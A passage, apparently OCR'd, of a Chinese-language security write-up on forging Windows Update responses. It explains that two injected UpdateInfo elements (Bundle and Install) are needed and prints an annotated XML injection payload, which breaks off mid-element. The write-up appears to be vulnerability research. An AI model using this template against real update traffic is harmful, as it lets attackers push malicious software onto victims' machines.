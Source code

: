 而我们的通过在上面为空的NewUpdates标签中插入内容，就能伪造更新

通过大量测试我们发现一个windows update需要两个`<UpdateInfo>`元素，其中一个必须含有`<Action>Install</Action>`标签，另一个必须含有`<Action>Bundle</Action>`标签，install标签提供了更新标题诸如此类的，而bundle标签则提供更新文件。

```
<NewUpdates>                                    <!-- Start of injected content -->
<UpdateInfo>
<ID>17999990</ID>                               <Deployment>
<ID>899990</ID>
<Action>Bundle</Action>
<IsAssigned>true</IsAssigned>
<LastChangeTime>2015-04-15</LastChangeTime>
<AutoSelect>0</AutoSelect>
<AutoDownload>0</AutoDownload>
<SupersedenceBehavior>0</SupersedenceBehavior>  <FlagBitmask>0</FlagBitmask>
</Deployment>
<IsLeaf>true</IsLeaf>
<Xml>
<!-- This would XML-encoded inside the Xml tag -->
<UpdateIdentity UpdateID="969e0d46-7f67-4c81-b672-3c1c4a36c00e"
RevisionNumber="201" />
<Properties UpdateType="Software" />
<Relationships>
<Prerequisites> 
<UpdateIdentity UpdateID="6407468e-edc7-4ecd-8c32-521f64cee65e" />
</Prerequisites>
</Relationships>
<ApplicabilityRules>
<IsInstalled>
<b.FileExists Csidl="41" Path="\15151245.exe" /> <!-- This file shouldn't
exist -->
</IsInstalled>
<IsInstallable>
<b.FileExists Csidl="41" Path="\mswsock.dll" /> <!-- This does exist -->
</IsInstallable>
</ApplicabilityRules>
</Xml>
</UpdateInfo>
<UpdateInfo>
<ID>17999991</ID>
<Deployment>
<ID>899991</ID>
<Action>Install</Action>
<IsAssigned>true</IsAssigned>
<LastChangeTime>2015-04-15</LastChangeTime>
<AutoSelect>0</AutoSelect> <!-- This must be 0 according to docs, WU
ignores it -->                                  <AutoDownload>0</AutoDownload> <!-- same -->
<SupersedenceBehavior>0</SupersedenceBehavior>
<FlagBitmask>0</FlagBitmask>
</Deployment>
<IsLeaf>true</IsLeaf>
<Xml>
<!-- This should be XML encoded inside the Xml tag -->
<UpdateIdentity UpdateID="853ea117-355b-4c1e-96ce-fab9c977a8e7"
    RevisionNumber="201" />
<Properties UpdateType="Software" ExplicitlyDeployable="true"
    AutoSelectOnWebSites="true"/>
<Relationships>
<Prerequisites>
<UpdateIdentity UpdateID="6407468e-edc7-4ecd-8c32-521f64cee65e" /> <!--
    Requires Windows 10 -->
</Prerequisites>
<BundledUpdates>
<UpdateIdentity UpdateID="969e0d46-7f67-4c81-b672-3c1c4a36c00e"
```